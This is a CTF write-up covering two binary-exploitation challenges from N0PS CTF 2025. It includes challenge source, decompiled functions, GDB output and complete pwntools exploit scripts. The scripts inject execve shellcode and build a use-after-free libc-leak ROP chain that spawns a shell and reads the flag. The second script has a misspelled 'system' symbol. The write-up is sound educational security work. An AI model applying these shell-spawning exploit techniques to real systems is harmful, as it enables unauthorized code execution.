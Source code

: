 ---
title: '[WRITE UP] - N0PS CTF 2025'
description: 'Yet another CTF wrtite up'
image: '../../img/cover_photo_wup_imresizer.png'
date: '2025-06-03'
tags: ['2025', 'PWN', 'WriteUp']
authors: ['kdot']
draft: false
pinned: false
---


## pwnfield

### Challenge Information

<Challenge
    authors={["Xen0s"]}
    points={473}
    solves={27}
    category="pwn"
    description="We discovered that PwnTopia use their secret mine to collect shellcodium, a very rare and powerful resource! We need it too, to be able to defend N0PStopia. However, PwnTopia has put some mines in the way to the shellcodium, but we are lucky PwnTopia left their most powerful tool, a shell , sh on their way out! Can this be a secret message? Can you manage to avoid the mines and use their tool against them?"
    flag="N0PS{0n3_h45_70_jump_0n_7h3_204d_70_pwnt0p1a}"
>
</Challenge>

### Source code analysis

<details id="src">
<summary>Souce code</summary>
<p>

```c title="pwnfield.c"
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

#define MAX_INSTRUCTIONS 32
#define USER_INSTR_SIZE 5
#define MINE_SIZE 12
#define LINE_SIZE (USER_INSTR_SIZE + MINE_SIZE)
#define TOTAL_SIZE (LINE_SIZE * MAX_INSTRUCTIONS) + 1

const uint8_t exit_mine[] = {
    0xB8, 0x3C, 0x00, 0x00, 0x00,
    0xBF, 0x39, 0x05, 0x00, 0x00,
    0x0F, 0x05
};

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    void *mem = mmap(NULL, TOTAL_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC,
                     MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (mem == MAP_FAILED) {
        perror("mmap");
        exit(1);
    }

    uint8_t *p = mem;
    printf("Type 'exit' to stop inputting instructions.\n");
    for (int i = 0; i < MAX_INSTRUCTIONS; i++) {
        printf("Instruction %d/32 (5 bytes mov): ", i + 1);
        fflush(stdout);

        uint8_t buf[USER_INSTR_SIZE];
        ssize_t n = read(0, buf, USER_INSTR_SIZE);
        if (n != USER_INSTR_SIZE) {
            puts("Bad input.");
            exit(1);
        }

        if (strncmp((char *)buf, "exit", 4) == 0) {
            puts("Starting execution!");
            break;
        }

        // Must be mov — opcode B8..BF
        if (buf[0] < 0xB8 || buf[0] > 0xBF) {
            puts("Only mov r32, imm32 allowed.");
            exit(1);
        }

        memcpy(p, buf, USER_INSTR_SIZE);
        p += USER_INSTR_SIZE;

        memcpy(p, exit_mine, MINE_SIZE);
        p += MINE_SIZE;
    }


    printf("Start execution from which instruction? ");
    fflush(stdout);

    char input[32];
    read(0, input, sizeof(input) - 1);
    input[31] = '\0';

    int32_t index = atoi(input);

    // Check if index is within bounds
    if (index < 0) {
        puts("Invalid instruction index.");
        exit(1);
    }

    // Calculate starting address with bounds checking
    void *start = mem + (((int64_t)index * LINE_SIZE) % TOTAL_SIZE);

    puts("Executing...");
    ((void(*)())start)();

    return 0;
}
```
</p>
</details>

This will be a shellcode challenge, but with some restrictions. One of those restrictions is that `exit_mine` will be added after each time we enter our shellcode. And we are only allowed to enter 5 bytes at a time (32 times in total). More notably, in the calculation to execute the shellcode based on the index, our shellcode will be ordered to go 1 byte based on this formula

```c
void *start = mem + (((int64_t)index * LINE_SIZE) % TOTAL_SIZE);
```

That is, if the address of where we write the shellcode is `0x404400`, then when it executes it will execute at `0x404401`. Therefore, our shellcode is always offset by 1 byte and from there it always executes the commands in `exit_mine`

### Exploit

To solve this problem, we can think of using the jump command to jump to each section in our shellcode. Our idea here is to let the program read one more time, and in this next write we will write the real shellcode, that is, execve to drop the shell. So to calculate the offset you want to jump you can try to enter some random instruction that satisfies the condition, then just subtract the address from it:

```sh title="GDB"
pwndbg> tel 0x7158ecb42001
00:0000│ rdx rip 0x7158ecb42001 ◂— pop rsi /* 0x3cb80d755e5e */
01:0008│         0x7158ecb42009 ◂— add byte ptr [rdi + 0x539], bh /* 0x50f00000539bf00 */
02:0010│         0x7158ecb42011 ◂— mov edi, 0xd755e5a /* 0x3cb80d755e5abf */
03:0018│         0x7158ecb42019 ◂— add byte ptr [rax], al /* 0xf00000539bf0000 */
04:0020│         0x7158ecb42021 ◂— add eax, 0x74ff31bf /* 0x3cb80d74ff31bf05 */
05:0028│         0x7158ecb42029 ◂— add byte ptr [rax], al /* 0x539bf000000 */
06:0030│         0x7158ecb42031 ◂— syscall  /* 0xb8e6ff050fbf050f */
07:0038│         0x7158ecb42039 ◂— cmp al, 0 /* 0x539bf0000003c; '<' */
pwndbg> x/i 0x7158ecb42011+0x1
   0x7158ecb42012:      pop    rdx
pwndbg> x/3i 0x7158ecb42001
=> 0x7158ecb42001:      pop    rsi
   0x7158ecb42002:      pop    rsi
   0x7158ecb42003:      jne    0x7158ecb42012
pwndbg> p/x 0x7158ecb42012-0x7158ecb42003
$2 = 0xf
pwndbg> p/d
$3 = 15
```

As we can see our offset will be 0xf which means we will need 15 bytes to hit it, but we can't specify exactly where it will hit the next instruction in the shellcode. So we will just set the offset to `skip` to 13 and add another nop padding of 14 so that when it hits the next instruction in our shellcode, the `nop` will do nothing and thus it will execute the next instruction in the shellcode smoothly.
One more note is that we need to add a conditional byte at the beginning of the shellcode so that when it `+1` it will execute the correct instruction we want.

<details id="exp">
<summary>Exploit</summary>
<p>

```py title="exploit.py" collapse={1-31}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./pwnfield', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
b *main+594
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)


# ==================== EXPLOIT ====================
p = start()

jmp_not_equal = asm('jne skip; ' + 'nop\n' * 13 + 'skip: nop')[:2]
jmp_equal = asm('je skip; ' + 'nop\n' * 13 + 'skip: nop')[:2]

instructions = []

sc1 = asm('pop rsi; pop rsi;')
instructions.append(b'\xbf' + sc1 + jmp_not_equal)

sc2 = asm('pop rdx; pop rsi;')
instructions.append(b'\xbf' + sc2 + jmp_not_equal)

sc3 = asm('xor edi, edi')
instructions.append(b'\xbf' + sc3 + jmp_equal)

sc4 = asm('syscall; jmp rsi')
instructions.append(b'\xbf' + sc4)


while len(instructions) < 32:
    instructions.append(b'\xbf' + p32(0x0))

# print(instructions)

for i, ins in enumerate(instructions):
    sa(f'Instruction {i+1}/32 (5 bytes mov): '.encode(), ins)

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

sla(b"instruction? ", b"0")

# pause()

sc5 = asm('''
    xor rax, rax
    mov rbx, 0x68732f6e69622f
    push rbx
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov al, 0x3b
    syscall
''')

sleep(0.2)
sl(sc5)

interactive()
# N0PS{0n3_h45_70_jump_0n_7h3_204d_70_pwnt0p1a}
```

</p>
</details>

## Under Attack

### Challenge Information
<Challenge
    authors={["y3noor"]}
    points={488}
    solves={19}
    category="pwn"
    description="Ladybug Command System FULLY OPERATIONAL."
    flag="N0PS{its_N0pSt0pia's_Pleasure_that_L4dy_bug__is_w3aaker!!!__}"
></Challenge>

### Reverse Engineering

<details id="main">
<summary>main function</summary>
<p>
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  FILE *stdout; // rdi
  int n3; // ebx
  unsigned int index; // [rsp+Ch] [rbp-88Ch] BYREF
  size_t size; // [rsp+10h] [rbp-888h] BYREF
  __int64 (__fastcall *v8)(); // [rsp+18h] [rbp-880h] BYREF
  char s1[64]; // [rsp+20h] [rbp-878h] BYREF
  _BYTE v10[512]; // [rsp+60h] [rbp-838h] BYREF
  char hex_payload[512]; // [rsp+260h] [rbp-638h] BYREF
  char s[1080]; // [rsp+460h] [rbp-438h] BYREF

  puts("Noopsy Defenses CRUSHED! Ladybug Command System FULLY OPERATIONAL!");
  stdout = ::stdout;
  fflush(::stdout);
  menu(stdout);
  printf("\nNoopsy Land is ours! Your command, Overlord?: ");
  fflush(::stdout);
  while ( fgets(s, 1024, stdin) )
  {
    s[strcspn(s, "\n")] = 0;
    hex_payload[0] = 0;
    v10[0] = 0;
    s1[0] = 0;
    n3 = __isoc99_sscanf(s, "%63s %511s %511s", s1, v10, hex_payload);
    if ( n3 > 0 )
    {
      if ( !strcmp(s1, "unleash_swarm") )
      {
        if ( n3 == 3
          && (unsigned int)__isoc99_sscanf(v10, "%d", &index) == 1
          && (unsigned int)__isoc99_sscanf(hex_payload, "%zu", &size) == 1 )
        {
          unleash_swarm(index, size);
        }
        else
        {
          puts("ERROR: Usage: unleash_swarm <idx> <size>");
        }
      }
      else if ( !strcmp(s1, "corrupt_systems") )
      {
        if ( n3 == 3 && (unsigned int)__isoc99_sscanf(v10, "%d", &index) == 1 )
          corrupt_systems(index, hex_payload);
        else
          puts("ERROR: Usage: corrupt_systems <idx> <hex_payload>");
      }
      else if ( !strcmp(s1, "gather_intel") )
      {
        if ( n3 == 2 && (unsigned int)__isoc99_sscanf(v10, "%d", &index) == 1 )
          gather_intel(index);                  // Leak
        else
          puts("ERROR: Usage: gather_intel <idx>");
      }
      else if ( !strcmp(s1, "retreat_agent") )
      {
        if ( n3 == 2 && (unsigned int)__isoc99_sscanf(v10, "%d", &index) == 1 )
          retreat_agent(index);                 // Free
        else
          puts("ERROR: Usage: retreat_agent <idx>");
      }
      else if ( !strcmp(s1, "seize_airwaves") )
      {
        if ( n3 == 2 && (unsigned int)__isoc99_sscanf(v10, "%llx", &v8) == 1 )
          seize_airwaves(v8);
        else
          puts("ERROR: Usage: seize_airwaves <hex_addr>");
      }
      else if ( !strcmp(s1, "send_echo_pulse") )
      {
        if ( n3 == 1 )
          send_echo_pulse();
        else
          puts("ERROR: Usage: send_echo_pulse");
      }
      else if ( !strcmp(s1, "steal_noopsy_secrets") )
      {
        if ( n3 == 1 )
          steal_noopsy_secrets();
        else
          puts("ERROR: Usage: steal_noopsy_secrets");
      }
      else if ( !strcmp(s1, "initiate_city_takeover") )
      {
        if ( n3 == 2 && (unsigned int)__isoc99_sscanf(v10, "%llx", &v8) == 1 )
        {
          initiate_city_takeover((__int64)v8);
          puts("[SYSTEM] Post-Takeover: Control flow unexpectedly returned.");
        }
        else
        {
          puts("ERROR: Usage: initiate_city_takeover <hex_addr>");
        }
      }
      else
      {
        if ( !strcmp(s1, "vanish_into_shadows") )
        {
          puts("Ladybug Command disengaging. Noopsy Land remains under our shadow.");
          fflush(::stdout);
          break;
        }
        printf("ERROR: Unknown directive from the Overlord: '%s'.\n", s1);
      }
      fflush(::stdout);
      if ( !strcmp(s1, "vanish_into_shadows") )
        continue;
    }
    printf("\nNoopsy Land is ours! Your command, Overlord?: ");
    fflush(::stdout);
  }
  fflush(::stdout);
  return 0LL;
}
```
</p>
</details>

<details id="unleash_swarm">
<summary>unleash_swarm function</summary>
<p>
```c
int __fastcall unleash_swarm(unsigned int n7, size_t nmemb)
{
  void *v2; // rax

  if ( n7 > 7 )
  {
    printf("ERROR: Agent index %d out of designated Noopsy sectors (0-%d).\n", n7, 7);
  }
  else if ( qword_4040E0[n7] )
  {
    printf("ERROR: Agent %d already commands this Noopsy sector.\n", n7);
  }
  else if ( nmemb )
  {
    v2 = calloc(nmemb, 1uLL);
    qword_4040E0[n7] = v2;
    if ( v2 )
    {
      qword_4040A0[n7] = nmemb;
      printf("AGENT_DEPLOYED: %p\n", v2);
    }
    else
    {
      printf("ERROR: Failed to materialize agent %d (strength %zu). Resources stretched thin?\n", n7, nmemb);
    }
  }
  else
  {
    puts("ERROR: Cannot deploy agent of zero strength. Noopsy remnants might resist!");
  }
  return fflush(stdout);
}
```
</p>
</details>

<details id="corrupt_systems">
<summary>corrupt_systems function</summary>
<p>
```c
int __fastcall corrupt_systems(unsigned int n7, const char *s)
{
  const char *s_1; // r15
  size_t n; // rbp
  size_t size_1; // r12
  size_t size; // r14
  char *ptr_1; // r12
  __int64 pn7; // rsi
  const char *inject_msg; // rdi
  char *ptr; // [rsp+0h] [rbp-48h]
  void *dest; // [rsp+8h] [rbp-40h]

  if ( n7 > 7 || (dest = (void *)qword_4040E0[n7]) == 0LL )
  {
    pn7 = n7;
    inject_msg = "ERROR: Agent %d is offline. Cannot inject subversive payload.\n";
    goto LABEL_13;
  }
  s_1 = s;
  n = strlen(s);
  size_1 = n >> 1;
  size = (n >> 1) + 1;
  ptr = (char *)malloc(size);
  if ( !ptr )
  {
    printf("ERROR: Payload buffer corrupted for agent %d.\n", n7);
    return fflush(stdout);
  }
  if ( !n )
  {
LABEL_12:
    memcpy(dest, ptr, n);
    free(ptr);
    pn7 = n7;
    inject_msg = "INJECT_OK: Payload assimilated by agent %d.\n";
LABEL_13:
    printf(inject_msg, pn7);
    return fflush(stdout);
  }
  if ( (n & 1) == 0 )
  {
    n >>= 1;
    if ( size >= size_1 )
    {
      if ( size_1 )
      {
        ptr_1 = ptr;
        while ( (unsigned int)__isoc99_sscanf(s_1, "%2hhx", ptr_1) == 1 )
        {
          s_1 += 2;
          ++ptr_1;
          if ( s_1 == &s[2 * n] )
            goto LABEL_12;
        }
        goto LABEL_11;
      }
      goto LABEL_12;
    }
  }
LABEL_11:
  printf("ERROR: Garbled payload data for agent %d.\n", n7);
  free(ptr);
  return fflush(stdout);
}
```
</p>
</details>

<details id="gather_intel">
<summary>gather_intel function</summary>
<p>
```c
int __fastcall gather_intel(unsigned int n7)
{
  unsigned __int64 n16; // rbp
  unsigned __int64 n16_1; // rbx
  int pn3; // esi

  if ( n7 <= 7 && qword_4040E0[n7] )
  {
    n16 = qword_4040A0[n7];
    if ( n16 )
    {
      if ( n16 > 16 )
        n16 = 16LL;
      n16_1 = 0LL;
      printf("INTEL_DATA: ");
      do
      {
        pn3 = *(unsigned __int8 *)(qword_4040E0[n7] + n16_1++);
        printf("%02x", pn3);
      }
      while ( n16_1 < n16 );
      putchar(10);
    }
    else
    {
      printf("INTEL_EMPTY: Agent %d is dormant.\n", n7);
    }
  }
  else
  {
    printf("ERROR: Agent %d MIA. Cannot retrieve intel.\n", n7);
  }
  return fflush(stdout);
}
```
</p>
</details>

<details id="retreat_agent">
<summary>retreat_agent function</summary>
<p>
```c
int __fastcall retreat_agent(unsigned int n7)
{
  void *ptr; // rdi

  if ( n7 <= 7 && (ptr = (void *)qword_4040E0[n7]) != 0LL )
  {
    free(ptr);                                  // Use-After-Free
    printf("RECALL_OK: Agent %d has withdrawn.\n", n7);
  }
  else
  {
    printf("ERROR: Agent %d already extracted or never deployed.\n", n7);
  }
  return fflush(stdout);
}
```
</p>
</details>

<details id="seize_airwaves">
<summary>seize_airwaves function</summary>
<p>
```c
int __fastcall seize_airwaves(int (*psub_4016B0)())
{
  ::psub_4016B0 = psub_4016B0;
  printf("ANTENNA_OK: Noopsy communication channel %llx is NOW LADYBUG'S VOICE!\n", psub_4016B0);
  return fflush(stdout);
}
```
</p>
</details>

<details id="send_echo_pulse">
<summary>send_echo_pulse function</summary>
<p>
```c
int send_echo_pulse()
{
  if ( psub_4016B0 )
    psub_4016B0();
  else
    puts("ERROR: Ladybug Command Relay offline.");
  return fflush(stdout);
}
```
</p>
</details>

Looking at the above functions, we will see a bug called `Use-After-Free` in the `retreat_agent` function. Besides, the `seize_airwaves` function allows us to pass in an address and execute it in the `send_echo_pulse` function, which allows us to execute any function arbitrarily if we have the libc base, this is not too difficult because we can create chunks with unlimited size, and putting that chunk into unsortedbin and leaking it with `gather_intel` is not too difficult for us.

### Exploit

The tricky part here is that the program uses a non-Ubuntu libc, which means we have to find a `ld` that matches it for it to run, finding `ld` would be a pain if we were to search for it. Luckily we can build docker and get `ld` from it. After some `GPT-fu` techniques I found out that its image is `debian:bookworm` then we just need to use `docker pull debian:bookworm` and the next thing is to get `ld` and patch it into the binary

Back to the challenge above after getting the libc base, I will use it to pass the address of the `gets` function in and call that `gets` function, with the characteristic of reading infinite data, I can create a ROP chain, then let the program execute it when returning

<details id="exp">
<summary>Exploit</summary>
<p>

```py title="exploit.py" collapse={1-41}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./ladybug_app_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
b *0x40170B
b *0x401801
b *0x401897
b *0x401876
b *0x401961
b *0x4019DB
b *0x4017EB
b *0x40188F
b *0x401AD8
b *0x401A17
b *0x401A50
b *0x4013b3
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

def unleash_swarm(index, size):
    sla(b'Overlord?: ', f'unleash_swarm {index} {size}'.encode())

def corrupt_systems(index, hex_data):
    payload = b'corrupt_systems ' + str(index).encode() + b' ' + hex_data
    sla(b'Overlord?: ', payload)

def gather_intel(index):
    sla(b'Overlord?: ', f'gather_intel {index}'.encode())

def retreat_agent(index):
    sla(b'Overlord?: ', f'retreat_agent {index}'.encode())

def reversed_bytes(data: bytes) -> int:
    if all(32 <= b <= 126 for b in data):
        real_bytes = bytes.fromhex(data.decode())
    else:
        real_bytes = data

    reversed_bytes = real_bytes[::-1]
    return int.from_bytes(reversed_bytes, byteorder='little')

# ==================== EXPLOIT ====================
p = start()

unleash_swarm(0,  1056)
unleash_swarm(1, 1)

ru(b'AGENT_DEPLOYED: ')
heap = hexleak(rl()[:-1]) - 0x16c0
success('heap base @ %#x', heap)

retreat_agent(0)
gather_intel(0)

ru(b'INTEL_DATA: ')
data = rnb(12)

libc.address = reversed_bytes(data) - 0x1d2cc0
success('libc base @ %#x', libc.address)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = pop_rdi + 1

payload = flat(
    0,
    ret,
    pop_rdi, next(libc.search(b'/bin/sh\0')),
    libc.sym.sytstem
)

sla(b'Overlord?: ', f'seize_airwaves {hex(libc.sym.gets)}'.encode())

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

sla(b'Overlord?: ', b'send_echo_pulse')

sl(payload*100)

sla(b'Overlord?: ', b'vanish_into_shadows')

sl(b'cat f*')

interactive()
# N0PS{its_N0pSt0pia's_Pleasure_that_L4dy_bug__is_w3aaker!!!__}
```
</p>
</details>

## What I learned

After this CTF I had the opportunity to work on more constrained shellcode challenges, practicing my ability to write shellcodes depending on the program's conditions. Besides that, flexibly used functions in libc to build ROP chains and drop a shell.
